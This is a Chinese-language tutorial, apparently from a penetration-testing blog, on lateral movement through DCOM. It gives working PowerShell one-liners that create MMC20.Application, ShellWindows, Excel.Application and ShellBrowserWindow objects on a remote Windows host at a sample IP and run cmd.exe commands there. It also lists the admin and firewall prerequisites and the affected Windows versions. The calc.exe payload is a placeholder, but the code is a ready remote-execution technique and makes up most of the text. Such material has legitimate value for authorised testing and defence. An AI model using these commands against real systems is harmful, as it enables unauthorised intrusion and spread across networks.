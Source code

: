 在使用该方法时，需要具备以下条件：

- 具有本地管理员权限的 PowerShell
- 需要关闭目标系统的防火墙。
- 在远程主机上执行命令时，必须使用域管的 administrator 账户或者在目标主机上具有管理员权限的账户

1、调用 MMC20.Application 远程执行命令

```
$com = [Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.7.7"))
$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimized")
或者
[Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application","192.168.7.7")).Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimized")
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210902175722.png)

2、调用 ShellWindows 远程执行命令

```
$com=[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.7.7"))
$com.item().Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0)
或者
[Activator]::CreateInstance([Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.7.7")).item().Document.Application.ShellExecute("cmd.exe","/c calc.exe","c:\windows\system32",$null,0)
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210902175207.png)

以上这两种方法均适用于Windows 7、Windows 10、Windows Server 2008、Windows Server 2016 的系统。

除了 MMC20.Application 和 ShellWindows，还有以下这几种 DCOM 对象可以被利用。

3、调用 Excel.Application 远程执行命令

```
$com = [activator]::CreateInstance([type]::GetTypeFromprogID("Excel.Application","192.168.7.7"))
$com.DisplayAlerts = $false
$com.DDEInitiate("cmd.exe","/c calc.exe")
```

4、调用 ShellBrowserWindow 远程执行命令

> 适用于 Windows 10 和 Windows Server 2012 R2 等版本的系统

```
$com = [activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","192.168.7.7"))
$com.Document.Application.shellExecute("calc.exe")
或者
[activator]::CreateInstance([type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","192.168.3.144")).Document.Application.shellExecute("calc.exe")
```
